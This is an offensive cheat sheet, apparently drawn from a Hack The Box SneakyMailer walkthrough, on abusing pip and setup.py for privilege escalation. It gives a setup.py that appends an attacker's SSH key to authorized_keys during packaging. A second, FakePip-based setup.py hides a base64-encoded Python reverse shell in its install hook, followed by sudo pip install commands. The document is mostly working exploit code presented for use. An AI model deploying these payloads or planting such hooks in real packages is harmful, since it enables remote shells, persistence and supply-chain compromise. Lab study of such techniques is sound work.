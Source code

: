 Python PIP Exploit (sdist)

http://insec.in/2020/07/15/hack-the-box-sneakymailer-walkthrough/

First go to tmp and create a package directory

cd /tmp
mkdir mypkg

Then create .pypirc file

[distutils]
index-servers = local

[local]
repository: http://pypi.sneakycorp.htb:8080
username: pypi
password: soufianeelhaoui

Create a key, which can then add to authorized keys

root@kali:~/hackthebox/machine/SneakyMailer# ssh-keygen -b 2048 -t ed25519 -f ./key -q -N ''

root@kali:~/hackthebox/machine/SneakyMailer# cat key.pub

ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMM20bpCOUwHR4+8hMegW7FanYYPdA6yJZ1OIniwUDXn root@kali

Create the file “setup.py”

#!/usr/bin/python

# -*- coding: utf-8 -*-

import setuptools

try:
    with open('/home/low/.ssh/authorized_keys', 'a') as f:

        f.write('\nssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINWLOep+t1bm+GS0lGVtI6YIHS5sqKWKoulvUxV9PcZU greg@kali')

        f.close()

except Exception as e:
    pass
    setuptools.setup(  # Replace with your own username
        name='example-pkg3',
        version='0.0.1',
        author='Example Author',
        author_email='author@example.com',
        description='A small example package',
        long_description='',
        long_description_content_type='text/markdown',
        url='https://github.com/pypa/sampleproject',
        packages=setuptools.find_packages(),
        classifiers=['Programming Language :: Python :: 3',
                    'License :: OSI Approved :: MIT License',
                    'Operating System :: OS Independent'],
        )

Upload the setup.py and .pypirc to the target (wget, scp etc...)

Change the permissions for these files

chmod 777 setup.py
chmod 600 .pypirc

Change the HOME environment variable

HOME=$(pwd)

Execute setup.py with PIP (sdists)
https://docs.python.org/2/distutils/sourcedist.html

python3 setup.py sdist register -r local upload -r local

* * *

# **PIP exploit without sdist**

https://github.com/0x00-0x00/FakePip

The reverse shell is embeded inside the setup.py.

Create a setup.py file and upload it on the target.

from setuptools import setup
from setuptools.command.install import install
import base64
import os

class CustomInstall(install):
  def run(self):
    install.run(self)
    LHOST = '10.10.14.29'  # change this
    LPORT = 8888 #change this

    reverse_shell = 'python -c "import os; import pty; import socket; s = socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect((\'{LHOST}\', {LPORT})); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); os.putenv(\'HISTFILE\', \'/dev/null\'); pty.spawn(\'/bin/bash\'); s.close();"'.format(LHOST=LHOST,LPORT=LPORT)

    encoded = base64.b64encode(reverse_shell.encode())
    os.system('echo %s|base64 -d|bash' % encoded.decode())

setup(name='FakePip',
      version='0.0.1',
      description='This will exploit a sudoer able to /usr/bin/pip install *',
      url='https://github.com/0x00-0x00/fakepip',
      author='zc00l',
      author_email='andre.marques@esecurity.com.br',
      license='MIT',
      zip_safe=False,
      cmdclass={'install': CustomInstall})

Then run PIP

(sudo) pip install .

OR

(sudo) pip install . --upgrade --force-reinstall